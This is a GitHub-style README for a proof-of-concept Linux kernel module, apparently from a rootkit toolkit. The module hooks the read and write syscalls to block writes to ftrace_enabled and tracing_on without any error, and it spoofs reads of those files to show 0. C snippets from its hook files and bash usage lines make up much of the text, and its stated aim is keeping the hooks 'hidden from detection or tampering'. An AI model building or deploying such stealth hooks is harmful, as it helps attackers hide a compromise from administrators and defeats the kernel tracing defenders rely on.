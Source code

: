## Simple PoC for Silently Blocking All `writes` to `ftrace_enabled` && `tracing_on` as Well as Spoofing the Read from Those Files When Enabled to Appear Off

### Overview
This Linux kernel module ensures that all `write` operations to the files `/proc/sys/kernel/ftrace_enabled` and `/sys/kernel/tracing/tracing_on` are silently blocked. Additionally, the module spoofs the read value of these files to appear as `0` when they are actually enabled (`1`), but only once per read attempt to avoid spamming `0`s.

The goal is to maintain the integrity of the hooks while keeping them hidden from detection or tampering. This is achieved through custom hooks implemented for the `read` and `write` syscalls.

---

### Snippet from `hooks/read.h`

```c
// If the current value is "1" change it to "0" once; avoids repeated spoofing.
if (spoof_next_read == 0 && strncmp(kernel_buf, "1", 1) == 0) {
    kernel_buf[0] = '0';
    spoof_next_read = 1; // Ensure spoof happens only once
} else {
    spoof_next_read = 0; // Reset spoof for subsequent reads
}
```

---

### Snippet from `hooks/write.h`

```c
/* Silently blocks writes to ftrace_enabled and tracing_on using the same 
   method employed in clear-taint-dmesg, but adapted for the write syscall. */

if (strcmp(file->f_path.dentry->d_name.name, "ftrace_enabled") == 0 ||
    strcmp(file->f_path.dentry->d_name.name, "tracing_on") == 0) {
        
    fput(file); // Free the file object after verification

    // Allocate a temporary buffer in kernel space
    kernel_buf = kmalloc(B_F, GFP_KERNEL);
    if (!kernel_buf) {
        return -ENOMEM;
    }

    // Copy data from user space to kernel space buffer
    if (copy_from_user(kernel_buf, user_buf, count)) {
        kfree(kernel_buf);
        return -EFAULT;
    }

    // Check for "1" or "0" and handle appropriately
    if (strncmp(kernel_buf, "1", 1) == 0) {
        // ftrace enabled
    } else if (strncmp(kernel_buf, "0", 1) == 0) {
        // ftrace disabled
    }

    kfree(kernel_buf);
    return count; // Simulate a successful write
}
```

---

### Example Usage

<p align="center"><img src=".img/ftrace.jpg"></p>

```bash
echo 0 > /proc/sys/kernel/ftrace_enabled; echo 0 > /sys/kernel/tracing/tracing_on
# Silently blocked; write does not succeed

cat /proc/sys/kernel/ftrace_enabled; cat /sys/kernel/tracing/tracing_on
# Outputs 0 (even if internally it remains enabled)
```

### Extra 

[![Discord](https://img.shields.io/badge/Discord-%235865F2.svg?&logo=discord&logoColor=white)](https://discord.gg/66N5ZQppU7)
[![C](https://img.shields.io/badge/C-00599C?logo=c&logoColor=white)]()
[![Linux](https://img.shields.io/badge/Linux-FCC624?logo=linux&logoColor=black)]()
